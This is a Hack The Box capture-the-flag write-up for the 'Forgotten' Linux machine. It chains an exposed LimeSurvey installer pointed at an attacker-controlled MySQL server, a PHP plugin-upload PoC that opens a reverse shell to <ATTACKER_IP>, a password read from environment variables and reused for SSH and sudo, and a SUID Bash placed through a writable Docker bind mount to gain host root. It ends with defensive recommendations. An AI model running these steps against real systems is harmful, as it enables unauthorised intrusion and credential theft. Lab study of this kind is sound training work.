









# Forgotten - Hack The Box Write-Up 

## Machine Information

| Field            | Value                                                                                                                      |
| ---------------- | -------------------------------------------------------------------------------------------------------------------------- |
| Machine          | Forgotten                                                                                                                  |
| Platform         | Hack The Box                                                                                                               |
| Operating system | Linux                                                                                                                      |
| Difficulty       | Easy                                                                                                                       |
| Primary services | SSH, HTTP                                                                                                                  |
| Main techniques  | Web enumeration, exposed installer abuse, authenticated plugin upload, credential discovery, Docker bind-mount abuse, SUID |

## Executive Summary

The target exposed an unfinished LimeSurvey installation at `/survey`. Because the installer was still available, it was possible to point LimeSurvey at an attacker-controlled MySQL server, complete the installation, and create a new superadministrator account.

Administrative access enabled PHP code execution through LimeSurvey's plugin upload functionality. The resulting shell ran as `limesvc` inside a Docker container. An environment variable disclosed the service account's password, which was reused for SSH access to the host and for unrestricted `sudo` access inside the container.

Finally, a host directory was mounted read-write inside the container. Container root could therefore place a SUID copy of Bash in the shared directory. Executing that binary from the host preserved an effective UID of `0`, resulting in full host compromise.

```mermaid
flowchart LR
    A["Exposed LimeSurvey installer"] --> B["Attacker-controlled MySQL"]
    B --> C["Create a superadministrator"]
    C --> D["Upload a PHP plugin"]
    D --> E["Container shell as limesvc"]
    E --> F["Recover LIMESURVEY_PASS"]
    F --> G["SSH to the host"]
    G --> H["Container root through sudo"]
    H --> I["Write SUID Bash to shared mount"]
    I --> J["Host root"]
```



## Reconnaissance

### Port Discovery

A full TCP scan identified two exposed ports:

```bash
nmap -p- --min-rate 5000 -Pn -v <TARGET_IP> -oN nmap/port-discovery
```

```text
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

A focused scan then collected default scripts and service versions:

```bash
nmap -sC -sV -Pn -p22,80 <TARGET_IP> -oN nmap/services-detail
```

```text
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.13
80/tcp open  http    Apache httpd 2.4.56
|_http-server-header: Apache/2.4.56 (Debian)
|_http-title: 403 Forbidden
Service Info: Host: 172.17.0.2; OS: Linux
```

The different operating-system banners were an early indication that the web service might be containerized: SSH identified Ubuntu, while Apache identified Debian and reported an internal `172.17.0.2` address.

### HTTP Enumeration

Requesting the web root returned `403 Forbidden`.



Directory enumeration was performed with Feroxbuster:

```bash
feroxbuster -u http://<TARGET_IP>/ \
  -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt
```

The scan discovered `/survey`, which returned a working LimeSurvey application.



## Initial Access

### Exposed LimeSurvey Installer

Browsing to `/survey` showed that LimeSurvey had been deployed but not configured. The installation wizard was still publicly accessible.



The database configuration initially referenced `localhost` and required valid database credentials.



Instead of knowing credentials for a database on the target, an attacker-controlled MySQL instance could satisfy this requirement. A temporary MySQL container was started on the attacking host:

```bash
sudo docker pull mysql

sudo docker run --rm --name tmp-mysql \
  -p 3306:3306 \
  -e MYSQL_ROOT_PASSWORD=password \
  mysql:latest
```

The installer was configured with the attacking host as its database location:

| Setting | Value |
| --- | --- |
| Database type | MySQL |
| Database location | `<ATTACKER_IP>` |
| Database user | `root` |
| Database password | Password assigned to the temporary container |
| Database name | A new database name selected for the installation |



This worked because the target initiated an outbound MySQL connection to the attacking machine. The remaining installation steps allowed a new LimeSurvey administrator to be created.




The new credentials provided access to the administrative dashboard.



The dashboard identified the installed version as `6.3.7+231127`.



### Code Execution Through Plugin Upload

The [D3Ext proof of concept](https://github.com/D3Ext/CVE-2021-44967) automates an authenticated LimeSurvey plugin upload. The uploaded plugin contains PHP code and is activated using an administrator session.



> [!IMPORTANT]
> The target displayed LimeSurvey `6.3.7`, but the [NVD entry for CVE-2021-44967](https://nvd.nist.gov/vuln/detail/CVE-2021-44967) identifies version `5.2.4`. NVD also marks the CVE as disputed because LimeSurvey plugins intentionally permit PHP code and only a superadministrator can install them. Therefore, this write-up does not claim that version `6.3.7` was affected by a version-specific CVE. In this attack chain, the exposed installer provided superadministrator access, and the PoC automated the privileged plugin functionality to obtain code execution.

The PoC was downloaded and prepared as follows:

```bash
git clone https://github.com/D3Ext/CVE-2021-44967.git
cd CVE-2021-44967
```

A listener was started before triggering the payload:

```bash
nc -lvnp 4444
```

The exploit requires the LimeSurvey URL, the administrator credentials created during installation, and the reverse-shell callback details:

```bash
python3 CVE-2021-44967.py \
  --url http://<TARGET_IP>/survey \
  --user admin \
  --password '<INSTALLER_ADMIN_PASSWORD>' \
  --lhost <ATTACKER_IP> \
  --lport 4444
```

The listener received a shell as `limesvc`:

```text
connect to [<ATTACKER_IP>] from (UNKNOWN) [<TARGET_IP>]
uid=2000(limesvc) gid=2000(limesvc) groups=2000(limesvc),27(sudo)
/bin/sh: 0: can't access tty; job control turned off
```

The shell was upgraded to a more usable Bash session:

```bash
script -qc /bin/bash /dev/null
id
```

```text
uid=2000(limesvc) gid=2000(limesvc) groups=2000(limesvc),27(sudo)
```

The container-style hostname and the earlier `172.17.0.2` service information confirmed that this foothold was inside a Docker container rather than directly on the host.

## Lateral Movement to the Host

### Credential Discovery

Environment-variable enumeration disclosed a sensitive application password:

```bash
env | grep -i pass
```

```text
LIMESURVEY_PASS=<LIMESVC_PASSWORD>
```

The password was reused by the `limesvc` operating-system account. It allowed SSH access to the host through port 22:

```bash
ssh limesvc@<TARGET_IP>
```

```text
Welcome to Ubuntu 22.04.5 LTS
limesvc@forgotten:~$
```

At this point, two sessions were available:

| Session | Context | User |
| --- | --- | --- |
| Web-shell session | Docker container | `limesvc` |
| SSH session | Forgotten host | `limesvc` |

## Privilege Escalation

### Root Inside the Container

Back in the container, `sudo -l` showed that `limesvc` could execute any command as any user:

```bash
sudo -l
```

```text
User limesvc may run the following commands on the container:
    (ALL : ALL) ALL
```

The recovered service password also satisfied `sudo`, allowing a root shell inside the container:

```bash
sudo su
id
```

```text
uid=0(root) gid=0(root) groups=0(root)
```

Container root is not automatically host root. A container boundary still limits which host resources are reachable. The next step was therefore to identify resources shared with the host.

### Identifying the Shared Mount

Mount enumeration revealed that `/var/www/html/survey` was backed by the host's root filesystem device:

```bash
mount
```

```text
/dev/root on /var/www/html/survey type ext4 (rw,relatime,discard,errors=remount-ro)
```

The mapping was confirmed by creating a file as container root:

```bash
# Container
cd /var/www/html/survey
touch prove-12257.txt
```

The same file appeared under `/opt/limesurvey` on the host:

```bash
# Host
find / -name prove-12257.txt 2>/dev/null
ls -la /opt/limesurvey/prove-12257.txt
```

```text
/opt/limesurvey/prove-12257.txt
-rw------- 1 root root 0 Jun 21 03:11 /opt/limesurvey/prove-12257.txt
```

This proved both the path mapping and the privilege relationship:

```text
Container: /var/www/html/survey
Host:      /opt/limesurvey
```

Because user-namespace remapping was not in use, UID `0` inside the container created files owned by UID `0` on the host. The mount was also writable and permitted SUID files.

### SUID Bash Through the Shared Directory

A copy of Bash was placed in the shared directory and given the SUID and SGID bits from the container's root session:

```bash
# Container
cp /bin/bash /var/www/html/survey/bash
chmod +s /var/www/html/survey/bash
ls -la /var/www/html/survey/bash
```

The binary became available at `/opt/limesurvey/bash` on the host. Bash normally drops elevated privileges, so the `-p` option was required to preserve them:

```bash
# Host
cd /opt/limesurvey
./bash -p
id
```

```text
uid=2000(limesvc) gid=2000(limesvc) euid=0(root) egid=0(root)
```

An effective UID of `0` confirmed successful privilege escalation to host root.

## Security Observations

| Observation | Impact | Recommended control |
| --- | --- | --- |
| The LimeSurvey installer was publicly accessible | An unauthenticated user could configure the application and create a superadministrator | Remove or disable installation components after deployment and restrict setup routes to trusted administrators |
| The target could connect to an arbitrary external database | The installer could be completed using attacker-controlled infrastructure | Apply outbound network filtering and restrict database destinations |
| A service password was stored in an environment variable and reused | Compromise of the web container led to SSH access and `sudo` authentication | Use a secrets manager, limit secret exposure, and assign unique credentials to each security boundary |
| `limesvc` had unrestricted `sudo` inside the container | A low-privileged web shell immediately became container root | Run the application as a least-privileged user and remove unnecessary `sudo` access |
| A host directory was mounted read-write into the container | Container root could create host-root-owned files and cross the container boundary | Prefer read-only mounts, enable user-namespace remapping or rootless containers, and mount writable paths with `nosuid` where possible |

## Key Lessons

1. An exposed installer can be as dangerous as a conventional software vulnerability because it may grant control over the application's trust configuration.
2. Version numbers must be checked against authoritative vulnerability records. A working public PoC does not prove that the target version is affected by the CVE named in the repository.
3. Container root and host root are separate concepts, but writable bind mounts can connect the two security contexts.
4. File ownership across a bind mount can reveal whether container UID `0` maps directly to host UID `0`.
5. Credential reuse turned an application secret into both host access and privilege escalation material.

## References

- [NVD: CVE-2021-44967](https://nvd.nist.gov/vuln/detail/CVE-2021-44967)
- [D3Ext: CVE-2021-44967 proof of concept](https://github.com/D3Ext/CVE-2021-44967)
- [LimeSurvey documentation: Plugins - advanced](https://www.limesurvey.org/manual/Plugins_-_advanced)

